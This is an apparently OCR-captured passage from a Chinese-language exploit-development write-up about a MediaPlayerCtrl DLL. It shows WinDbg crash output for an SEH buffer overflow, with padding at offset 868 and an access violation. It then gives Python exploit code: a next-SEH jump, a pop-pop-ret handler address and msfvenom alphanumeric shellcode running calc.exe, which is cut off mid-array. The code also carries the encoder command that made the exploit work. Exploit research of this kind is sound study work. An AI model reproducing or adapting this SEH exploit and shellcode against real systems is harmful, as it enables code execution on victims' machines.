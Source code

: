 ```
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
MediaPlayerCtrl!DllCreateObject+0x1a0:
6400f4b0 81ec18020000    sub     esp,218h
0:000> dd esp L5
0012f414  6400f04f 00000001 00000001 05aadc5d
0012f424  05aad88c
0:000> db 05aadc5d
05aadc5d  11 e7 e3 24 48 27 05 e9-e0 6e 1d ee cd 39 96 c4  ...$H'...n...9..
05aadc6d  ba bb 7e 15 42 17 bf 9a-b1 69 87 1c 2a 1c f1 5f  ..~.B....i..*.._
05aadc7d  d7 27 c6 22 03 ad dd 84-c0 15 3a 35 04 c3 c9 39  .'."......:5...9
05aadc8d  e1 87 96 5d f4 44 ad 59-7d 6b 62 e8 c5 48 a6 b1  ...].D.Y}kb..H..
05aadc9d  9e f1 ff 1f 70 0d 1f c0-2d ab 6b ec 3a c6 31 7a  ....p...-.k.:.1z
05aadcad  bc 54 4c c8 be 66 4f 7c-d7 57 c4 13 a0 67 0f 50  .TL..fO|.W...g.P
05aadcbd  5e 22 12 f0 f7 eb c6 41-9a 0b 3d 85 a3 8f b4 75  ^".....A..=....u
05aadccd  50 8f bc 70 1c 17 2c 08-0d f2 52 bf 2e d7 30 5e  P..p..,...R...0^
0:000> db 05aadc5d+0n868
05aadfc1  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
05aadfd1  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
05aadfe1  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
05aadff1  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
05aae001  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
05aae011  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
05aae021  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
05aae031  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0:000> g
(1714.9a0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=0012f310 ebx=02ca1a70 ecx=000000c8 edx=00001011 esi=05aae57c edi=00130000
eip=6400f558 esp=0012f1ec ebp=00000001 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
MediaPlayerCtrl!DllCreateObject+0x248:
6400f558 f3a5            rep movs dword ptr es:[edi],dword ptr [esi]
```

不止是shellcode整体的payload也是大变样了，这一点虽然在原文中没有提，但肯定是和软件的上下文环境相关的，同时也观察到原文中使用的shellcode貌似全部是由可见的字符组成的，当我换成`x86/alpha_upper`的encoder，整体的漏洞利用也就没有问题了：

```python
padding = "A" * 868
next_seh = "\xeb\x06\x90\x90"
handler = "\xf7\x46\x02\x64" # 640246f7 pop pop ret
junk = "A" * 3000

# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/alpha_upper -f python -v shellcode -n 16
# Found 1 compatible encoders
# Attempting to encode payload with 1 iterations of x86/alpha_upper
# x86/alpha_upper succeeded with size 455 (iteration=0)
# x86/alpha_upper chosen with final size 455
# Successfully added NOP sled from x86/single_byte
# Payload size: 471 bytes
# Final size of python file: 2540 bytes
shellcode =  ""
shellcode += "\x42\x9f\x43\x93\xd6\x48\x37\xf5\x92\x90\x4a\x93"
shellcode += "\x43\xf9\x92\x92\x89\xe3\xdb\xc9\xd9\x73\xf4\x5e"
shellcode += "\x56\x59\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
shellcode += "\x51\x5a\x56\x54\x58\x33\x30\x56\x58\x34\x41\x50"
shellcode += "\x30\x41\x33\x48\x48\x30\x41\x30\x30\x41\x42\x41"
shellcode += "\x41\x42\x54\x41\x41\x51\x32\x41\x42\x32\x42\x42"
shellcode += "\x30\x42\x42\x58\x50\x38\x41\x43\x4a\x4a\x49\x4b"
shellcode += "\x4c\x4b\x58\x4c\x42\x43\x30\x35\x50\x55\x50\x33"
shellcode += "\x50\x4d\x59\x5a\x45\x46\x51\x39\x50\x55\x34\x4c"
shellcode += "\x4b\x56\x30\x50\x30\x4c\x4b\x30\x52\x44\x4c\x4c"
```